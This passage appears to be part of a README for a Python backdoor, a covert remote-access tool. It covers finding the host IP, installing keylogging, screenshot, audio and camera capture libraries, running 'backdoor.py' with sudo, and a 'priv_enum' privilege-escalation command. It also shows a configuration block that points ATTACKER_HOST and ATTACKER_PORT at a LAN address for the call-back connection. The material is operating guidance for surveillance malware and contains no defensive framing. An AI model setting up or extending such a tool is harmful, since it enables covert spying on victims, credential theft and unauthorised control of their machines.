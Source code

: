 ```bash
# Find correct IP:
ip addr show                      # Linux
ifconfig                          # macOS
ipconfig                          # Windows
```

### Feature Not Working

**Problem:** "Feature not available"

```bash
# Check if feature modules exist:
ls features/

# Install dependencies:
pip install -r requirements.txt

# Or use fallback mode (features use system commands)
```

**Problem:** Import errors

```bash
# The backdoor is designed to work without external libraries
# Features automatically use fallback methods

# To use full features, install:
pip install pynput Pillow pyautogui pyaudio opencv-python numpy mss imageio imageio-ffmpeg

# For screen recording, also install ffmpeg (recommended):
# macOS:   brew install ffmpeg
# Ubuntu:  sudo apt-get install ffmpeg
# Windows: Download from ffmpeg.org
```

### Permission Issues

**Problem:** Permission denied

```bash
# Run with appropriate permissions:
sudo python3 backdoor.py          # For privileged operations

# Or use privilege escalation features:
priv_enum                         # Find escalation vectors
```

## 🌐 Network Configuration

### Same Network (LAN)

```python
# In backdoor.py:
ATTACKER_HOST = '192.168.0.107'   # Attacker's local IP
ATTACKER_PORT = 5558
```
